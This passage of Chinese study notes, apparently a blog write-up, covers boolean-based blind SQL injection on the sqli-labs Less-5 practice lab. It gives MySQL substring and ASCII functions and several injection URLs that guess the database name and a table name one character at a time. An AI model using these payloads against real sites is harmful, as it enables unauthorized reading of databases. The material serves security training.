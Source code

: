 2、数据库名字的第一个字母是不是a,b,c,d....

​	第2,3,4,5.。。。8个字母

3、先查第一个表名的长度

4、第一个字母。。。。

可以用二分法

```mysql
#截取字符
SELECT MID('abcdefghijklm',5,5); #从第五位（包括第五位）开始接着截取无位
SELECT substr('abcdefghijklm',5,5);#从第五位（包括第五位）开始接着截取无位，
SELECT left('abcdefghijklm',5);#从左边开始截取五位

#转成ascii码
SELECT ORD('a');
SELECT ASCII('a');

#正则(模糊匹配)
SELECT USER()  regexp '^ro';
SELECT USER() LIKE 'ro%';
```

![image-20220429111846568](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182200266-1317829396.png)

```
http://sqli-labs/Less-5/?id=1' and length(database())=8--
```

![image-20220429112214867](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182200880-1263932841.png)

```
http://sqli-labs/Less-5/?id=1' and left(database(),1)='h' -- 
```

```
http://sqli-labs/Less-5/?id=1' and ascii(substr(database(),2,1))=113 -- 
```

```
http://sqli-labs/Less-5/?id=1' and ascii(substr(database(),3,1))=100 --   #逐个尝试
```

```
http://sqli-labs/Less-5/?id=1' and ascii(substr((SELECT TABLE_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT  1,1),1,1))=113-- 
```

#查询的是tables的表的table_schema字段指定当前库名，LIMIT 0,1代表查的是第一个库，从第0个开始查，代表的是查第一个表的名字，# ,1,1))截取的是第一个表的第一个表的第一个字母

![image-20220429183711691](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182201763-1062056036.png)

然后就慢慢试....

接着拿列名
